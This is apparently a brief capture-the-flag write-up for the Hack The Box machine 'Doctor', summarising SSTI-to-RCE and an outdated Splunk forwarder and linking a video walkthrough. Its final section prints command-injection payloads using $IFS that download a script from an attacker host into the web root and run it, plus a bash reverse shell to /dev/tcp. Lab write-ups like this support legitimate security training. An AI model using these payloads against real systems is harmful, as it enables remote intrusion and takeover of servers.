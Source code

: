```yaml
---
layout: post
category: writeup
---
```



- doctor is an easy box from HTB
- vulnerable SSTI to RCE
- outdated splunkforwarder
- unintended RCE in content field




[![Doctor](https://img.youtube.com/vi/uxbwCMNQ2WA/0.jpg)](https://www.youtube.com/watch?v=uxbwCMNQ2WA "Doctor Walkthrough")


- as far as the uninteded path since i don't complete it I will explain it here:

first you will need to curl in a bash  payload and save to `/var/www/html`. next you will need to run it, so the payloads should look something like this:


```
# first payload
http://IP/$('curl'$IFS'http://IP/shell.sh'$IFS'-o'$IFS'/var/www/html/shell.sh')

# second payload

http://ip/$('bash'$IFS'/var/www/html/shell.sh')

# contents of shell.sh:

bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
